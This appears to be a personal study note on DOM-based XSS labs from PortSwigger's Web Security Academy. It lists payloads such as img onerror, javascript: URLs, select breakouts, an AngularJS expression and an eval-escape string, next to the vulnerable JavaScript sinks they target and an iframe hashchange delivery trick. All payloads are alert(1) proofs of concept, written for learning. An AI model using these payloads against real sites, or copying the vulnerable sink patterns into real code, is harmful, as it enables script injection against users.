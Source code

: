 ## Exploits

1. `a" onload=alert(1)>//` || `a"><img src=1 onerror=alert(1)>`
2. `a</option></select><script>alert(1)</script>`
3. `<img src=a onerror=alert(1)>`
4. `javascript:alert(1)`
5. `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
6. `{{ $eval.constructor('alert(1)')() }}`
7. `\"alert()}//`
8. `<><img src=1 onerror=alert()>`

```js
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">'); 
document.write('<option selected>'+store+'</option>');
document.getElementById('searchMessage').innerHTML = query;
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
Using AngulerJS, injecting code.
eval('var searchResultsObj = ' + this.responseText); //this.responseText = '{"results":[],"searchTerm":"a"}' <-- string not JSON
let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)//custom escape that only handle first < >.
```

## Main ideas
- If the vulnerable code is executed in something like `hashchange`, `urlchange`... Any thing that should be changed in user browser, Then we can use `<iframe>` with `onload`
  and put what you want to change after it `<iframe src=http//lab.com# onload="this.src+='<img src=0 onerror=alert(1)>'" >`

---
### lab1
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">'); 
} 
var query = (new URLSearchParams(window.location.search)).get('search'); 
if(query) {
	trackSearch(query);
}
IN DOM
<img src="/resources/images/tracker.gif?searchTerms=a">
________
Exploit
a" onload=alert(1)>//    OR
a"><img src=1 onerror=alert(1)>

```

### lab2
#### Adding unexpected argument
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
	document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
	if(stores[i] === store) {
		continue;
	}
	document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');

_______IN DOM_____
<select name="storeId">
	<option selected>a</option>
	<option>London</option>
	<option>Paris</option>
	<option>Milan</option>
</select>
_________Exploit______
a</option></select><script>alert(1)</script>
```


### lab 3
#### innerHTML
```js
function doSearchQuery(query) {
	document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	doSearchQuery(query);
}
_______________
Exploit
<img src=a onerror=alert(1)>
https://web-security-academy.net/?search=%3Cimg+src%3Da+onerror%3Dalert%281%29%3E
```

### lab4
#### Sources and sinks in third-party dependencies
#### XSS in a href attribute
If a JavaScript library such as jQuery is being used, look out for sinks that can alter DOM elements on the page. For instance, jQuery's `attr()` function can change the attributes of DOM elements. If data is read from a user-controlled source like the URL, then passed to the `attr()` function, then it may be possible to manipulate the value sent to cause XSS. For example, here we have some JavaScript that changes an anchor element's `href` attribute using data from the URL, You can exploit this by modifying the URL so that the `location.search` source contains a malicious JavaScript URL. After the page's JavaScript applies this malicious URL to the back link's `href`, clicking on the back link will execute it.
```js
  
$(function() { 
	$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath')); 
});

____IN DOM_____
https://0a2100cb03db974c80f90336004a0069.web-security-academy.net/feedback?returnPath=/post
<a id="backLink" href="/post">Back</a>

____Exploit____

returnPath=javascript:alert(1)
https://0a2100cb03db974c80f90336004a0069.web-security-academy.net/feedback?returnPath=javascript:alert(1)

```

### lab5
Another potential sink to look out for is jQuery's `$()` selector function, which can be used to inject malicious objects into the DOM.
jQuery used to be extremely popular, and a classic DOM XSS vulnerability was caused by websites using this selector in conjunction with the `location.hash` source for animations or auto-scrolling to a particular element on the page. As the `hash` is user controllable, an attacker could use this to inject an XSS vector into the `$()` selector sink. More recent versions of jQuery have patched this particular vulnerability by preventing you from injecting HTML into a selector when the input begins with a hash character (`#`). However, you may still find vulnerable code in the wild. To actually exploit this classic vulnerability, you'll need to find a way to trigger a `hashchange` event without user interaction. One of the simplest ways of doing this is to deliver your exploit via an `iframe`.

> [!tip] 
> This vuln is based on creating new DOM object using `$(h2:contains)`. But that object won't appear in  the source page. 
> But if we have something like `<img src=0 onerror=alert(1)>`, This will make the browser tries to fetch the img and if failed it will execute the code. so we try to get something like `$('section.blog-list h2:contains(<img src=0 onerror=alert(1)>)')`

> [!tip] Tip: Dynamic Changes trigger
> If the vulnareble code need to have some changes in page or url. try to use `<iframe src=abc onload="javascriptCode" >` . you can change whatever you want in `onload` using javascript.

> [!warning] 
> The vulnerablitiy of  creating DOM object using $() is **patched**, but you may incounter something running in older versions.
```js
$(window).on('hashchange', function(){ 
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')'); // $() --> this create DOM object,
	//This code search for string in one of h2 tags, then assign that h2 object in post. if we put our tag inside it will be created.
	//So, 'Contains' if it find the target it will return it, if not it will create it.
	if (post) post.get(0).scrollIntoView();
});

___Exploit___
//in my exploit server
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

### lab5
[[1. what you need|Basic Anguler XSS]]

### lab6
#### eval

> [!bug] eval
> when you see eva that is red flag, you can easily execute your code. you need only to figure how to escape.

```js
eval('var searchResultsObj = ' + this.responseText);

____________
this.response --> `{"results":[],"searchTerm":"a"}`

____Exploit___
a\"-alert(1)}//

```
- because of `this.responseText()`. we have string.
- we did `"` --`"`-> `"searchTerm":"a\""}` --> But `"` got escaped so we put `\`-- `\"`--> `{"searchTerm":"a""}` --`\"-alert()`--> `"{searchTerm":"a"-alert()"}`
  we still have additional `"` at the end which make error, so we need to end the json and comment every thing --`\"alert()}//`--> `"{searchTerm":"a"-alert()} //"}`

